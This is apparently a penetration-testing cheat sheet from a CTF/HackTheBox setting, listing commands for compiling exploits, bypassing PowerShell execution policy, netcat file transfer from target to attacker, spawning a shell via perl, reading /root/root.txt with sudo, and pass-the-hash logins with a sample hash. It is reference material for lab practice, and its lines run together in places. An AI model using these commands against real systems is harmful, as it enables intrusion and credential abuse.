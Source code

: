 # MISC

Compiling Exploits

```
gcc -o exploit exploit.c#Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linuxi586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe​Cross compilingCompile Windows exploit in Linuxi686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe​Compile Python script to executablewine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile exploit.py
```

Packet Inspection

```
tcpdump tcp port 80 -w output.pcap -i eth0​
```

Powershell bypass

```
Powershell: powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1​
```

Window Exploit Suggester

```
 ./windows-exploit-suggester.py -d 2019-07-20-mssb.xls -i system.txt
```

Finding Auxiliary

```
 ls /usr/share/nmap/scripts/ | grep smb | grep vuln​
```

Netcat

```
From attacker to targetAt targetnc -lvp 6969 > blah.txtAt attacker (method 1)nc x.x.x.x 6969 < blah.txtAt attacker (method 2)cat blah.txt | nc x.x.x.x 6969
```

Perl Exploit

```
Perl Exploitperl —e 'exec "/bin/sh";'sudo perl -F: -lane 'print $F[0]' /root/root.txt
```

Awk

```
Remove duplicate lines:awk '!seen[$0]++' file
```

Searchsploit

```
searchsploit --overflow --exact --mirror 21234​ searchsploit --overflow --exact Gwolle
```

Firewall Rule Enable

```
firewall rule enableufw allow from victimip to any port 80,443 proto tcp​
```

Wordlist Creation

```
Wordlist creation:cewl -w cewl-forum.txt -e -a http://forum.bart.htb
```

PASS the HASH

```
​Pass the hash :pth-winexe -U jenkins/administrator //ip cmd.exepth-winexe -U jenkins/administrator%password //ip cmd.execrackmapexec​ pth-winexe --user=jeeves/administrator%aad3b435b51404e eaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe​
```

Share folder Windows to linux

mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow\_other
